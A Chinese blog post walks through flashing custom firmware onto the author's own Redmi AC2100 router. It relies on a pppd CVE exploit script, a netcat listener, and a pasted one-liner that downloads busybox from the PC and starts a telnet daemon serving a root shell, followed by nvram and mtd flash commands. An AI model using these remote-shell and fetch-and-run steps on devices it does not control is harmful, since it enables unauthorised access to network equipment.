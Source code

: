 ```yaml
---
title: redmi路由rm2100刷机
date: 2020-05-10 10:31:29
tags:
	- redmi ac2100
	- rm2100
---
```


最近听说redmi/xiaomi ac2100 路由很火，就入手了一个169的redmi ac2100。到手开箱的时候，第一感觉就是这东西颜值挺低的，外形来看，除了正面，其他三面各配两条天线，据说xiaomi ac2100为了妥协外观去掉了这六根天线。。。

根据恩山论坛大佬的教程折腾了一晚上没成功，主要是卡在了pppoe这一步，路由死活连不上虚拟机的pppoe。具体教程：

1. 准备两条网线，一条短接wan口和旁边的lan口，另一条连接电脑相邻lan口

2. 下载大佬配置好的ubuntu20虚拟机，锁屏密码是739870，里面装好python3环境也搭好pppoe服务了，用vmvare打开虚拟机。

3. 在下载目录（大佬的虚拟机桌面点击haha开头的文件夹一路点到redmi目录）打开命令行窗口，运行

   ```
   python3 -m http.server 8081 &
   ```

    建立http服务器。用手机看看 http://192.168.31.177:8081/ 能否正常打开 ，不能打开就自行检查防火墙，再考虑后面的。这一步一定要在虚拟机检查一下是否能打开192.168.31.1，能进入小米路由管理页面就说明虚拟机和主机网卡桥接成功了。或者说如果你看到路由器的internet指示灯不亮（正常应该是黄色常亮的），那就检查一下网线是否插好，不亮灯肯定是没接上wan口的，多留意细节。

4. 同样在下载目录打开窗口运行下面命令，这是开启pppoe的命令

   ```shell
   sudo pppoe-server -I ens33 -L 192.168.5.1 -R 192.168.5.5 -N 10
   ```

   路由器能拨上号后再考虑后面的。

   再次打开窗口，运行

   ```shell
   nc -nvlp 31337
   ```

   再次打开窗口，运行

   ```shell
   sudo python3 pppd-cve.py 
   ```

   此时注意运行nc-nvlp 31337的窗口，一但收到连接立刻在nc的窗口里复制粘贴运行下面的代码（一定要先运行nc再运行python脚本），这里手速要快点，因为nc连上后会跳出命令。如果连接中途断开，则重复运行上面最后两步（指python和nc-nvlp两个窗口）。

   ```shell
   cd /tmp&&wget http://192.168.31.177:8081/busybox&&chmod a+x ./busybox&&./busybox telnetd -l /bin/sh
   ```

5. 上诉操作完成后运行

   ```shell
   telnet 192.168.31.1
   ```

   再依次运行

   ```shell
   wget http://192.168.31.177:8081/r3g.bin&&nvram set uart_en=1&&nvram set bootdelay=5&&nvram set flag_try_sys1_failed=1&&nvram commit
   ```

   ```shell
   mtd -r write r3g.bin kernel1
   ```

   虽然不太懂这些代码，但大概猜出来是开启路由器telnet的，有了telnet就可以刷入固件了。

6. 运行完成后会进入op(用户名root 密码admin)此时可切换到windows。如果拿不到ip，请手动设置有线网卡ip为192.168.1.23，网关为192.168.1.1，网关掩码255.255.255.0。winscp将老毛子固件传到tmp目录下，用putty之类的连路由器运行下面命令：

  ```
  mtd -r write /tmp/redmi.trx kernel
  ```

  然后等待重启即可，管理后台192.168.2.1 帐号密码：admin admin 或者root admin